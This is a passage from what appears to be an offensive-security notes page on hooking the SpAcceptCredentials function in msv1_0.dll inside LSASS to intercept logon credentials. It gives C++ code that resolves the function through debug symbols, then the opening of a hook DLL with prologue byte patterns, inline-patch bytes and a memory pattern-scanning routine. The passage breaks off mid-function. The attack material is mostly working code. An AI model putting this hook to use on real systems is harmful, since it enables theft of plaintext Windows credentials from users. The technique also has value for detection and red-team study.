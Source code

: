 ![](../../.gitbook/assets/lsaaplogonuserex2.gif)

## SymFromName

It's possible to resolve the `SpAcceptCredentials` function address if we have access to debugging symbols like so:

```cpp
HMODULE targetModule = LoadLibraryA("msv1_0.dll");
PCSTR symbolName = "msv1_0!SpAcceptCredentials";
ULONG64 buffer[(sizeof(SYMBOL_INFO) + MAX_SYM_NAME * sizeof(TCHAR) + sizeof(ULONG64) - 1) /    sizeof(ULONG64)] = {};
PSYMBOL_INFO symbol = (PSYMBOL_INFO)buffer;
symbol->SizeOfStruct = sizeof(SYMBOL_INFO);
symbol->MaxNameLen = MAX_SYM_NAME;
SymSetOptions(SYMOPT_EXACT_SYMBOLS);
SymInitialize(GetCurrentProcess(), "C:\\programdata\\dbg\\sym", TRUE);
SymFromName(GetCurrentProcess(), symbolName, symbol);
```

![](../../.gitbook/assets/image%20%2822%29.png)

## Code

{% code title="SpAcceptCredentialsHook.dll" %}
```cpp
#include "stdafx.h"
#include <iostream>
#include <Windows.h>
#define SECURITY_WIN32
#include <Sspi.h>
#include <ntsecapi.h>
#include <ntsecpkg.h>

using _SpAcceptCredentials = NTSTATUS(NTAPI *)(SECURITY_LOGON_TYPE LogonType, PUNICODE_STRING AccountName, PSECPKG_PRIMARY_CRED PrimaryCredentials, PSECPKG_SUPPLEMENTAL_CRED SupplementalCredentials);
char startOfPatternSpAccecptedCredentials[] = { 0x48, 0x83, 0xec, 0x20, 0x49, 0x8b, 0xd9, 0x49, 0x8b, 0xf8, 0x8b, 0xf1, 0x48 };
char bytesToPatchSpAccecptedCredentials[12] = { 0x48, 0xb8 };
PVOID patternStartAddressOfSpAccecptedCredentials = NULL;
PVOID addressOfSpAcceptCredentials = NULL;
char bytesToRestoreSpAccecptedCredentials[12] = { 0 };
void installSpAccecptedCredentialsHook();

PVOID GetPatternMemoryAddress(char *startAddress, char *pattern, SIZE_T patternSize, SIZE_T searchBytes)
{
    unsigned int index = 0;
    PVOID patternAddress = NULL;
    char
        *patternByte = 0,
        *memoryByte = 0;
    do
    {
        if (startAddress[index] == pattern[0])
        {
            for (size_t i = 1; i < patternSize; i++)
            {
                *(char *)&patternByte = pattern[i];
                *(char *)&memoryByte = startAddress[index + i];

                if (patternByte != memoryByte)
                {
```